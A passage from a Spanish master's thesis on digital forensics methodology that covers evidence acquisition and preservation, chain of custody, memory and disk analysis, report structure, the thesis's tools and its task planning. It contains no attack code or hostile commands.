2. Proteger las huellas dactilares que pueda haber en los equipos para que los demás cuerpos y unidades de policía e investigadores puedan realizar su tarea. Es por lo tanto recomendable el uso de guantes de látex o similar para esta finalidad. En este punto se recuerda el principio de intercambio de Locard ya citado en el [apartado 1.3.3](#133-norma-rfc-3227).

3. Anotar la hora y fecha de los equipos implicados que no tiene por qué coincidir con la real, esto es importante para la investigación posterior y para la realización de una línea temporal con todos los sucesos que han ocurrido. En caso de haber desfase entre la hora del equipo y la real, este desfase se tiene que documentar para tenerlo en cuenta posteriormente. La captura de la hora y fecha se puede realizar fotografiando la pantalla o grabando un vídeo de la misma, siempre y cuando no haya que manipular el equipo para ello.

4. Ver si en pantalla hay algún proceso que nos aporte información útil sobre lo que esté pasando en directo, en ese caso, grabar todo lo que ocurre. Es importante valorar las entradas y salidas de los equipos, pues nos pueden aportar pistas importantes. De igual modo con otros periféricos de entrada/salida, tales como impresoras, teléfonos IP, escáneres, etcétera.

**ADQUISICIÓN.**

Llegados a esta fase, la cual ya ha sido previamente realizada a la elaboración del TFM, cabe destacar la tarea de establecer el orden de prioridad de la recolección de las evidencias. Para ello, hay que tener en cuenta una serie de principios acerca de la identificación de las evidencias y más específicamente sobre la volatilidad de las mismas. Es vital conocer qué datos son más o menos volátiles, identificarlos correctamente y posteriormente proceder a su recolección.

Entendemos por volatilidad de los datos el período de tiempo en el que estarán accesibles en el equipo. Por lo tanto, se deberán recolectar previamente aquellas pruebas más volátiles. Según la **<u style='color:red'>RFC</u>** 3227, el que se presenta a continuación, es un posible orden de volatilidad de mayor a menor:

#### [1.3.5. Imagen 005.](#82001003005005-orden-de-volatilidad-análisis-forense)

Como ya se ha indicado previamente, si se quiere realizar una depuración de responsabilidades de manera penal, es necesario establecer una autoridad legal que presente la recogida de evidencias, ya sea un secretario judicial o un notario.

La ultima tarea de esta fase es la recogida de evidencias, para ello se realiza una copia bit a bit de los discos que se quieran analizar, es decir, se requiere una copia exacta del contenido de los discos incautados. Esto incluye todos los archivos del disco, por ejemplo los temporales, los ocultos, los de configuración, los eliminados y no sobrescritos y la información relativa a la parte del disco no asignada, es lo que se conoce como copia a bajo nivel.

Esta copia se llevará a cabo sobre un soporte limpio mediante un borrado seguro de los datos que pudiera contener anteriormente para evitar así contaminaciones con otros casos.

**PRESERVACIÓN.**

Esta accion, se ha realizado al igual que las anteriores, ha sido realizada de manera previa a la elaboración del TFM, para ello se tienen que tener en cuenta las siguientes consideraciones.

Una vez realizada la copia se debe verificar la **<u style='color:red'>integridad</u>** de la misma. Para ello se calcula el **<u style='color:red'>hash</u>** o **<u style='color:red'>CRC</u>** de la copia, normalmente los equipos destinados al clonado de discos ya incorporan esa característica. Así con el **<u style='color:red'>hash</u>** del disco original y el de la copia se puede certificar que ambos son idénticos a todos los niveles y ante un juez, por ejemplo, quedará probado que no se ha manipulado de ningún modo. Con este procedimiento también nos aseguraremos que no se han producido errores en la copia.

Con la primera copia realizada y comprobada procedemos a realizar una segunda copia sobre la primera. En este caso también se comprobará que el contenido es idéntico mediante el mismo proceso descrito anteriormente. Teniendo ambas copias entregaremos la primera al secretario judicial o notario responsable del caso y nos quedaremos con la segunda para poder trabajar. La segunda copia será nuestra copia de respaldo en todo momento en el laboratorio y no será para trabajar directamente con ella en ningún caso. Para realizar el análisis se deberá realizar una tercera copia, comprobar su **<u style='color:red'>integridad</u>** y trabajar sobre ella, de tal modo que en caso de cualquier desastre o alteración de los datos siempre tengamos la segunda copia exacta al original de donde poder volver a realizar otra copia para analizar.

Una mala preservación de las evidencias, un mal uso o una mala manipulación pueden invalidar toda la investigación que se lleva a cabo delante de un tribunal, este es un factor muy importante que se va repitiendo a lo largo de toda la metodología.

La **<u style='color:red'>cadena de custodia</u>** es el procedimiento controlado aplicable a las evidencias relacionadas con el suceso, desde el momento en que se encuentran en la escena hasta su análisis en el laboratorio. La finalidad de la **<u style='color:red'>cadena de custodia</u>** es evitar cualquier tipo de manipulación y tener un control absoluto sobre todos los elementos incautados, quién los ha manipulado, cómo lo ha realizado, porqué los ha manipulado, para qué lo ha hecho y cuándo ha tenido lugar dicha manipulación.

Es importante realizar todas las anotaciones descritas en la fase de identificación de las evidencias para que esta fase sea aún más sólida. Con todos los elementos documentados será mucho más fácil tener un control de todas las evidencias que disponemos y poder realizar una traza de todas las pruebas adquiridas.

Además se tendrá en cuenta de proteger los bienes para el transporte desde el lugar de los hechos hasta el laboratorio con los medios necesarios para evitar golpes o proteger de caídas fortuitas.

La documentación de la **<u style='color:red'>cadena de custodia</u>** deberá contener también todos los lugares por donde ha pasado la evidencia y quién ha realizado su transporte y su acceso.

En nuestro caso, cabe destacar que una vez iniciado el análisis de la memoria, esta no debe de modificarse ni contaminarse, en caso de ello el **<u style='color:red'>Hash</u>** de las evidencias cambiaría, por lo que la evidencia ha quedado contaminada. Hay que hacer estas acciones teniendo presente al secretario judicial, para que esa copia quede registrada si es necesario y que no ha habido mas alteraciones al respecto, ese cambio de **<u style='color:red'>hash</u>** será notificado y adjuntado en el proceso de instrucción, haciéndose también nuevas copias de este nuevo "snapshot" de la prueba.

**ANÁLISIS.**

La fase de análisis, ***en la cual iniciamos la elaboración del presente TFM,*** no termina hasta que no se puede determinar qué o quién causó el incidente, cómo lo hizo, qué afectación ha tenido en el sistema, etc. Es decir, es el núcleo duro de la investigación y tiene que concluir con el máximo de información posible para poder proceder a elaborar unos informes con todo el suceso bien documentado.

Antes de empezar el análisis, es importante recordar unas premisas básicas que todo investigador debe tener presente en el momento de enfrontarse al incidente. Como ya se ha explicado nunca se debe trabajar con datos originales y se debe respetar cada una de las leyes vigentes en la jurisdicción donde se lleve a cabo la investigación. Los resultados que se obtengan de todo el proceso han de ser verificables y reproducibles, así que en cualquier momento debemos poder montar un entorno donde reproducir la investigación y mostrarlo a quién lo requiera. Es importante también disponer de una documentación adicional con información de diversa índole, por ejemplo:

- Sistema operativo del sistema.
- Programas instalados en el equipo.
- Hardware, accesorios y periféricos que forman parte del sistema.
- Datos relativos a la conectividad del equipo:
    - Si dispone de **<u style='color:red'>firewall</u>**, ya sea físico o lógico.
    - Si el equipo se encuentra en zonas de red especiales, por ejemplo, **<u style='color:red'>DMZ</u>**.
    - Si tiene conexión a Internet o utiliza **<u style='color:red'>proxies</u>**.
- Datos generales de configuración que puedan ser de interés para el investigador
para ayudar en la tarea.

Para ayudar al desarrollo de esta fase del análisis forense podemos centrarnos en varias subfases o puntos importantes que generalmente siempre deben realizarse. Cabe recordar que no existe ningún proceso estándar que ayude a la investigación y habrá que estudiar cada caso por separado teniendo en cuentas las diversas particularidades que nos podamos encontrar. No será lo mismo analizar un equipo con sistema operativo Windows o con Linux. Tampoco será lo mismo un caso de intrusión en el correo electrónico de alguien o un ataque de denegación de servicio a una institución. De igual forma no actuaremos con los mismos pasos en un caso de instalación de un malware que destruya información de una ubicación de disco o un malware que envíe todo lo que se teclea en un equipo.

En todo caso, se pueden destacar varios pasos, que habrá que adaptar en cada caso:

- Preparar un entorno de trabajo adaptado a las necesidades del incidente.
- Reconstruir una línea temporal con los hechos sucedidos.
- Determinar qué procedimiento se llevó a cabo por parte del atacante.
- Identificar el autor o autores de los hechos.
- Evaluar el impacto causado y si es posible la recuperación del sistema.

Antes de empezar el análisis propiamente, se debe preparar un entorno para dicho análisis. Es el momento de decidir si se va a hacer un análisis en caliente o en frío.

En caso de un análisis en caliente se hará la investigación sobre los discos originales, lo que conlleva ciertos riesgos. Hay que tomar la precaución de poner el disco en modo sólo lectura, esta opción sólo está disponible en sistemas operativos Linux pero no en Windows. Si se opta por esta opción hay que operar con sumo cuidado pues cualquier error puede ser fatal y dar al traste con todo el proceso, invalidando las pruebas.

Si se opta por un análisis en frío, lo más sencillo es preparar una máquina virtual (en adelante VM) con el mismo sistema operativo del equipo afectado y montar una imagen del disco. Para ello, previamente habremos creado la imagen a partir de las copias que se hicieron para el análisis. En este caso podremos trabajar con la imagen, ejecutar archivos y realizar otras tareas sin tanto cuidado, pues siempre cabe la opción de volver a montar la imagen desde cero en caso de problemas.

La opción del análisis en frío, ***La cual será el caso que nos atañe el presente TFM, ya que der este modo es como se realizará el análisis***, resulta muy atractiva pues en caso de malwares se podrán ejecutar sin miedo, reproducir lo que ocurre y desmontar la imagen sin que la copia original resulte afectada. De este modo tal vez se pueda ir un poco más allá en la investigación y ser
un poco más agresivo.

Existen varios programas gratuitos para crear y gestionar VM's por ejemplo,
Oracle VM VirtualBox, que ofrecen muy buenas prestaciones.

Para la tarea de construir una cadena de acontecimientos y hacer una linea temporal cabe destacar lo siguiente.

Para crear la línea temporal, lo más sencillo es referirnos a los tiempos MACD de los archivos, es decir, las fechas de modificación, acceso, cambio y borrado, en los casos que aplique. Es importante, como ya se ha indicado en alguna ocasión tener en cuenta los husos horarios y que la fecha y hora del sistema no tienen por qué coincidir con los reales. Este dato es muy importante para poder dar crédito a las pruebas y a la investigación en general.

Para empezar, lo mejor es determinar la fecha de instalación del sistema operativo, para ello se puede buscar en los datos de registro. Además la mayoría de ficheros del sistema compartirán esa fecha. A partir de aquí puede ser interesante ver qué usuarios se crearon al principio, para ver si hay discrepancias o usuarios fuera de lo común en últimos instantes del equipo. Para ver esta información también es útil acudir al registro del sistema operativo.

Teniendo ya los datos iniciales del sistema, ahora se puede proceder a buscar más información en los ficheros que se ven "a simple vista". Lo importante es localizar que programas fueron los últimos en ser instalados y qué cambios repercutieron en el sistema. Lo más habitual es que estos programas no se instalen en los lugares habituales, sino que se localicen en rutas poco habituales, por ejemplo en archivos temporales o mezclados con los archivos y librerías del sistema operativo. Aquí se puede ir creando la línea temporal con esos datos.

Alternativamente es útil pensar que no todos los archivos están a la vista. Se puede encontrar información en archivos normales, pero también en temporales, ocultos, borrados o usando técnicas como la esteganografía, no se puede obviar ninguna posibilidad.

Habitualmente los sistemas operativos ofrecen la opción de visualizar los archivos ocultos y también las extensiones. Es útil activar estas opciones para detectar posibles elementos ocultos y extensiones poco habituales que nos resulten extrañas.

Para los archivos borrados se utilizaran programas especiales capaces de recuperar aquellos datos que se hayan eliminado del disco pero sobre los cuales aún no se haya sobrescrito nada. Es posible que el atacante elimine archivos o registros varios en afán de esconder lo que ha ocurrido, si estos no han sido sobrescritos se podrán recuperar y se podrán situar en la línea temporal relacionándolos con el conjunto de sucesos. Para recuperar información oculta mediante esteganografía también se deberán usar programas concretos. Es posible que el atacante ocultara información sobre otros archivos, tales como imágenes o audio para enviarlos posteriormente o tenerlos almacenados sin llamar la atención. Habitualmente hallaremos más información en ubicaciones ocultas que en los lugares más habituales.

Con todos estos datos se debería poder crear un esbozo de los puntos clave en el tiempo tales como la instalación del sistema, el borrado de determinados archivos, la instalación de los últimos programas, etcétera.

El siguiente paso del análisis es determinar el ***como se actuó***. Para determinar cómo se actuó es importante llevar a cabo una investigación sobre la memoria del equipo. Es interesante realizar un volcado de memoria para la obtención de cierta información. Con programas destinados a tal fin podremos ver que procesos se están ejecutando en el momento concreto y también aquellos que hayan sido ocultados para no levantar sospechas. Con esta información podremos saber qué ejecutables inician los procesos en ejecución y qué librerías se ven involucradas. Llegados aquí se puede proceder a realizar volcados de los ejecutables y de dichas librerías para poder analizar si contienen cadenas sospechosas o si, por lo contrario, son archivos legítimos. Sabiendo los procesos que se ejecutan y su naturaleza podemos obtener pistas de cómo se actuó para comprometer el equipo.

A menudo nos deberemos fijar en procesos en ejecución aparentemente inofensivos, habituales y legítimos en los sistemas operativos. No es extraño que determinados procesos con fines malintencionados se camuflen con procesos legítimos. Para ello deberemos observar que muchas veces estos se encuentran sin un proceso padre, cuando lo más habitual es que dependan de otros. En otras ocasiones simplemente se camuflan con nombres muy parecidos a otros para pasar desapercibidos.

Ciertos programas también nos darán información sobre las cadenas del ejecutable en cuestión. Con ellas podremos ver si mutan su contenido cuando se ejecutan en memoria y cuál es su contenido. En ocasiones, cierta información de las cadenas nos puede dar pistas muy valiosas, como por ejemplo, cadenas dónde encontrar logs, o enlaces a direcciones de Internet. También nos puede dar pistas sobre el tipo de malware al que nos enfrentamos. Si por ejemplo encontramos cadenas con alfabetos o teclas concretas del teclado, es probable que nos encontremos ante un keylogger.

Finalmente, otra práctica interesante para determinar cómo se actuó es leer la secuencia de comandos escrita por consola. Para ello procederemos con el volcado de memoria y podremos obtener dicha información. De este modo podremos leer que comandos se hicieron por consola y sabremos si se ejecutó algún proceso de este modo. Debemos excluir nuestras propias instrucciones pues seguramente aparecerán los comandos del volcado de memoria que se hicieron en su momento. Relativo a esta práctica, personalmente es la primera que se debería de realizar en un análisis forense, de ahi también poder corroborar que es lo que pueda decir el usuario en una posible entrevista, que en este caso no va a ser posible.

Para la tarea de identificación de autores, cabe destacar que para poder realizar una identificación del autor o autores del incidente, otra información importante que nos puede dar el volcado de memoria son las conexiones de red abiertas y las que están preparadas para enviar o recibir datos. Con esto podremos relacionar el posible origen del ataque buscando datos como la dirección **<u style='color:red'>IP</u>** en Internet.

Hay que actuar con prudencia puesto que en ocasiones se utilizan técnicas para distribuir los ataques o falsear la dirección **<u style='color:red'>IP</u>**. Hay que ser crítico con la información que se obtiene y contrastarla correctamente. No siempre se obtendrá la respuesta al primer intento y posiblemente en ocasiones sea muy difícil averiguar el origen de un incidente.

Es interesante recapacitar en los distintos perfiles de atacantes que se pueden dar hoy día en este ámbito para intentar mimetizarse y entender quién pudo ser el autor.

Por un lado podemos encontrar organizaciones y criminales que actúan por motivaciones económicas. Su finalidad es robar cierta información, ya sea empresarial o personal, para una vez obtenida venderla o sacar un rendimiento oneroso de la información.

Por otro lado está quién sólo busca acceder a sistemas por mero prestigio y reconocimiento en su ambiente cibernético. Accediendo a sistemas mal configurados y publicando datos que prueben su fechoría incrementará su notoriedad y se dará a conocer más en las redes.

En este punto es importante analizar dos vertientes. En caso que se esté realizando un peritaje con fines inculpatorios, o sea, judiciales, se deberá intentar resolver quién es el autor o al menos aportar pistas fiables para que otros investigadores puedan llevar a cabo otras investigaciones de otros ámbitos.

En cambio, si es con fines correctivos lo más interesante seguramente será obviar esta fase y proceder con el estudio del impacto causado y estudiar las mejoras que se pueden implantar para evitar episodios similares.

Para establecer el impacto causado, cabe destacar que se puede calcular en base a distintos factores y no hay un método único para su cálculo, ni una fórmula que nos dé un importe económico. Aun así para estos cálculos puede servir ayudarse de métodos como BIA (Business Impact Analysis) que determinan el impacto de ciertos eventos ayudando a valorar los daños económicamente.

A la larga cualquier incidente ocurrido devengará en unos gastos económicos que habrá que cuantificar en función de los ítems afectados tras el suceso. En ocasiones el coste económico resultará de tener que reemplazar una máquina o dispositivo que ha quedado inservible tras un ataque o bien las horas de empleado de tener que reinstalar el sistema. En este caso, el cálculo no supone mayor dificultad y se resuelve fácilmente.

En otras ocasiones, por ejemplo, los daños pueden deberse al robo de una información de secreto industrial en el que habrá que cuantificar no sólo qué supone reponer el sistema sino, a la larga, en qué se verá afectada la empresa. Los datos robados pueden ser para publicar cierta información sobre la empresa y poner en la opinión pública datos con intenciones de crear mala imagen, lo cual supone un daño incalculable y muy elevado para la empresa.

El impacto no sólo se puede calcular en base económica. Como ya se ha comentado al inicio de esta sección también existen otros factores, es el caso del tiempo de inactividad. Si el incidente ha supuesto paralizar la producción de una planta automatizada de fabricación esto supone muchas horas en que la producción es nula, por lo tanto no se trabajará. Evidentemente, a la larga también supondrá un problema económico pues no se podrán servir los pedidos pendientes de los clientes. Si la paralización afecta a una oficina, tal vez no se pare la producción de bienes pero sí el trabajo de los empleados que verán retrasado todo su trabajo.

**PRESENTACIÓN.**

La última fase de un análisis forense queda para redactar los informes que documenten los antecedentes del evento, todo el trabajo realizado, el método seguido y las conclusiones e impacto que se ha derivado de todo el incidente.

Para ello se redactarán dos informes, a saber, el informe técnico y el ejecutivo. En esencia en ambos informes se explican los mismos hechos pero varía su enfoque y el grado de detalle con que se expone el asunto.

- En el informe ejecutivo se usará un lenguaje claro y sin tecnicismos, se debe evitar usar terminología propia de la ciencia e ingeniería y expresiones confusas para gente no ducha en el tema. Hay que pensar que el público lector de estos informes serán jueces y gerentes que seguramente estén poco relacionados con el tema y además tengan poco tiempo para dedicarle. Se les debe facilitar la tarea al máximo.

- En el informe técnico, por el contrario, el público final será técnico y con conocimientos de la materia que se expone. Aquí se detallarán todos los procesos, los programas utilizados, las técnicas, etcétera. Debemos crear un documento que pueda servir de guía para repetir todo el proceso que se ha realizado en caso necesario.

Relativo al informe ejecutivo, cabe destacar que será un resumen de toda la tarea que se ha llevado a cabo con las evidencias digitales. Aunque será un documento de poca extensión, al menos comparado con el informe técnico, éste deberá contener al menos los siguientes apartados:
- Motivos de la intrusión.
    - ¿Por qué se ha producido el incidente?
    - ¿Qué finalidad tenía el atacante?
- Desarrollo de la intrusión.
    - ¿Cómo lo ha logrado?
    - ¿Qué ha realizado en los sistemas?
- Resultados del análisis.
    - ¿Qué ha pasado?
    - ¿Qué daños se han producido o se prevén que se producirán?
    - ¿Es denunciable?
    - ¿Quién es el autor o autores?
- Recomendaciones.
    - ¿Qué pasos dar a continuación?
    - ¿Cómo protegerse para no repetir los hechos?

El informe técnico será más largo que el anterior y contendrá mucho más detalle. Se hará una exposición muy detallada de todo el análisis con profundidad en la tecnología usada y los hallazgos. En este caso se deberá redactar, al menos:

- Antecedentes del incidente.
    - Puesta en situación de cómo se encontraba la situación anteriormente al incidente.
- Recolección de datos.
    - ¿Cómo se ha llevado a cabo el proceso?
    - ¿Qué se ha recolectado?
- Descripción de la evidencia.
    - Detalles técnicos de las evidencias recolectadas, su estado, su contenido,
etc.
- Entorno de trabajo del análisis.
    - ¿Qué herramientas se han usado?
    - ¿Cómo se han usado?
- Análisis de las evidencias.
    - Se deberá informar del sistema analizado aportando datos como las características del sistema operativo, las aplicaciones instaladas en el equipo, los servicios en ejecución, las vulnerabilidades que se han detectado y la metodología usada.
- Descripción de los resultados.
    - ¿Qué herramientas ha usado el atacante?
    - ¿Qué alcance ha tenido el incidente?
    - Determinar el origen del mismo y como se ha encontrado.
- Dar la línea temporal de los hechos ocurridos con todo detalle.
- Redactar unas conclusiones con las valoraciones que se crean oportunas a la vista de todo el análisis realizado.
- Dar unas recomendaciones sobre cómo proteger los equipos para no repetir el incidente o sobre cómo actuar legalmente contra el autor.

#### [1.3.5. Referencia 009.](#85009-metodología-para-un-análisis-forense) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [1.3.5. Referencia 010.](#85010-ninjas-de-la-web-metodología-para-un-análisis-forense)

**[Volver al Índice del capítulo 1. Plan de trabajo.](#índice-del-capítulo-1-plan-de-trabajo) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [Volver al Índice General.](#índice-general)**

---

                                           

## 1.4. Descripción del entorno de trabajo.

El entorno de trabajo para un análisis forense enfocado en la exploración de memoria RAM y disco duro exige una meticulosa preparación y adecuación de las herramientas y espacios de trabajo. Las evidencias, provenientes tanto de la RAM como del almacenamiento persistente del ordenador en cuestión, se convierten en el pilar fundamental del análisis, permitiendo la evaluación de procesos en ejecución, archivos almacenados, registros de actividad y cualquier otro elemento que pueda arrojar luz sobre las acciones realizadas en la máquina.

En un segundo plano, pero no menos esencial, se encuentra el portátil personal, que se configura como la estación de trabajo principal para la realización del análisis forense. Este debe estar equipado con un sistema operativo que, comúnmente en el ámbito forense, suele ser alguna distribución de Linux, junto con una serie de herramientas específicas para el análisis forense (como Autopsy o Sleuth Kit). No obstante, la selección y configuración de estas herramientas incurren en una deuda técnica que debe ser minuciosamente administrada, asegurando la pertinencia, licencia y compatibilidad de las mismas.

Relativo al ordenador personal destacar las siguientes aplicaciones que se van a utilizar para la realización del análisis.

- VirtualBox
- Volatility
- Autopsy

Por otro lado, la documentación y redacción del TFM se consolida mediante el uso del repositorio en GitHub TFM-ANÁLISIS-FORENSE (https://github.com/jrodg85/TFM-ANALISIS-FORENSE). Este repositorio no solo sirve como medio para documentar y presentar los hallazgos y metodologías empleadas, sino que también se erige como una herramienta para gestionar versiones y cambios a lo largo del desarrollo del trabajo, facilitando la trazabilidad y coherencia del mismo. Se deben establecer estrategias robustas para garantizar la **<u style='color:red'>integridad</u>** y confidencialidad de la información almacenada, considerando la naturaleza sensible de los datos manejados en la investigación forense.

Finalmente, Internet emerge como un recurso invaluable para la investigación, actualización y comunicación a lo largo del proyecto. Navegar por la red debe ser realizado de forma segura y consciente, protegiendo las comunicaciones y asegurando la **<u style='color:red'>integridad</u>** de las herramientas y datos descargados.

**[Volver al Índice del capítulo 1. Plan de trabajo.](#índice-del-capítulo-1-plan-de-trabajo) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [Volver al Índice General.](#índice-general)**

---

          

## 1.5. Listado de tareas.

En esta sección se ha elaborado después de una planificación del trabajo, el cual se han designado el siguiente listado de tareas a realizar. Gracias a este listado, podemos organizar el cómo vamos a realizar el TFM

Destacar que durante el listado de las tareas, cabe mencionar que habrán tareas de grooming o refinamiento, ellas no son utilizadas para reducción de deuda técnica, el objetivo estas jornadas es reflexionar sobre el contenido del mismo y valorar posibilidad de mejorar la organización del mismo. Estas variaciones, gracias a que se está realizando un control de versiones con git, se podrán ver las evoluciones o cambios del TFM en el mismo.

Durante la elaboración del reto 1 (PEC 1), se realizarán las siguientes tareas:

1. Lectura enunciado actividad 1.
2. Decision de formato de TFM.
3. Maquetación de TFM en LaTeX.
4. Elaboración de índice.
5. Refinamiento de TFM 1.
6. Diagrama de Gantt.
7. Problema a resolver.
8. Objetivos.
9. Revisión del estado del arte de la informática forense.
10. Refinamiento de TFM 2.

Durante la elaboración del reto 2 (PEC 2), se realizarán las siguientes tareas:

1. Lectura enunciado actividad 2.
2. Extremos de análisis y previsión de pruebas: Introducción.
3. Extremos de análisis.
4. Previsión de pruebas.
5. Análisis de la memoria RAM: Introducción.
6. Acciones previas al análisis de RAM.
7. Búsqueda de procesos en funcionamiento.
8. Análisis y extracción de procesos sospechosos.
9. Listado de conexiones de red y conexiones sospechosas.
10. Refinamiento TFM 3.
11. Feedback de la PEC 01.
12. Análisis de disco duro: Introducción.
13. Acciones previas al análisis de disco duro.
14. Datos de interés y usuarios del sistema del disco duro analizado.
15. Análisis de las evidencias del disco duro.
16. Planning relativo al resumen ejecutivo.
17. Planning relativo al informe pericial.
18. Adaptación al indice a los nuevos cambios en los capítulos 6 y 7.
19. Refinamiento TFM 4.

Durante la elaboración del reto 3  (PEC 3), se realizarán las siguientes tareas:

1. Lectura enunciado actividad 3.
2. Introducción Resumen ejecutivo.
3. Análisis Ejecutivo.
4. Conclusión de análisis ejecutivo.
5. Refinamiento TFM 5.
6. Feedback de la PEC 02.
7. Introducción del informe pericial.
8. Cuerpo del informe pericial.
9. Conclusiones del informe pericial.
10. Conclusiones TFM.
11. Revision de términos abreviaturas y acrónimos.
12. Revisión de imágenes.
13. Revision de referencias.
14. Refinamiento TFM 6.

Durante la elaboración del reto 4  (PEC 4), se realizarán las siguientes tareas.

1. Revisión de las anotaciones y consejos de la tutora de TFM 1.
2. Ultimas correcciones Feedback TFM 1.
3. Revisión de las anotaciones y consejos de la tutora de TFM 2.
4. Ultimas correcciones Feedback TFM 2.

La Entrega de videos, presentación y realización de la defensa del TFM, se consideran que están fuera de este TFM, ya que a partir de la fecha se considera entregado el presente documento.

**[Volver al Índice del capítulo 1. Plan de trabajo.](#índice-del-capítulo-1-plan-de-trabajo) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [Volver al Índice General.](#índice-general)**

---

                   

## 1.6. Planificación temporal de las tareas.

Para esta sección, se han elaborado los siguientes diagramas de Gantt relativos a cada uno de los retos a entregar.

Relativo al reto/PEC 1 se establece el siguiente diagrama:

#### [1.6. Imagen 001.](#82001006001-diagrama-de-gantt-retopec-1)

Relativo al reto/PEC 2 se establece el siguiente diagrama.

#### [1.6. Imagen 002.](#82001006002-diagrama-de-gantt-retopec-2)

Relativo al reto/PEC 3 se establece el siguiente diagrama.

#### [1.6. Imagen 003.](#82001006003-diagrama-de-gantt-retopec-3)

Relativo al reto/PEC 4 se establece el siguiente diagrama.

#### [1.6. Imagen 004.](#82001006004-diagrama-de-gantt-retopec-4)

**[Volver al Índice del capítulo 1. Plan de trabajo.](#índice-del-capítulo-1-plan-de-trabajo) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [Volver al Índice General.](#índice-general)**

---

                        

## 1.7. Revisión del estado del arte de la informática forense.

### **1.7.1. Introducción del estado del arte de la informática forense.**

El análisis forense, también llamado informática forense, computación forense, análisis forense digital o examen forense digital es la aplicación de técnicas científicas y analíticas especializadas a infraestructuras tecnológicas que permiten identificar, preservar, analizar y presentar datos válidos dentro de un proceso legal.

Dichas técnicas incluyen reconstruir elementos informáticos, examinar datos residuales, autenticar datos y explicar las características técnicas del uso de datos y bienes informáticos.

Esta disciplina no sólo hace uso de tecnologías de punta para mantener la **<u style='color:red'>integridad</u>** de los datos y del procesamiento de los mismos; sino que también requiere de una especialización y conocimientos avanzados de informática y sistemas para identificar lo que ha ocurrido dentro de cualquier dispositivo electrónico. La formación de un informático forense abarca no sólo el conocimiento del software, sino también de hardware, redes, seguridad, piratería, hackeo y recuperación de información.

La informática forense ayuda a detectar pistas sobre ataques informáticos, robos de información, conversaciones o para recolectar evidencias en correos electrónicos y chats.

La evidencia digital o electrónica es sumamente frágil, de ahí la importancia de mantener su integridad; por ejemplo, el simple hecho de pulsar dos veces en un archivo modificaría la última fecha de acceso del mismo.

Dentro del proceso del análisis forense, un examinador forense digital puede llegar a recuperar información que haya sido borrada desde el sistema operativo. El informático forense debe tener muy presente el principio de intercambio de Locard por su importancia en el análisis criminalístico, así como el estándar de Daubert para hacer admisibles en juicio las pruebas presentadas por el experto forense.

Es muy importante mencionar que la informática o el análisis forense no tiene como objetivo prevenir delitos, por lo que resulta imprescindible tener claros los distintos marcos de actuación de la informática forense, la seguridad informática y la auditoría informática.

**[Volver al Índice del capítulo 1. Plan de trabajo.](#índice-del-capítulo-1-plan-de-trabajo)**

---

              

### **1.7.2. Definiciones.**

Existen diferentes términos referentes a la ciencia forense en informática. Cada uno de estos términos trata de manera particular o general temas que son de interés para las ciencias forenses.

**Computación forense (computer forensics).**

1. Disciplina de la ciencia forense que considera los procedimientos en relación con las evidencias para descubrir e interpretar la información en los medios informáticos con el fin de establecer hipótesis o hechos relacionados con un caso. (Centrada en las consideraciones forenses).

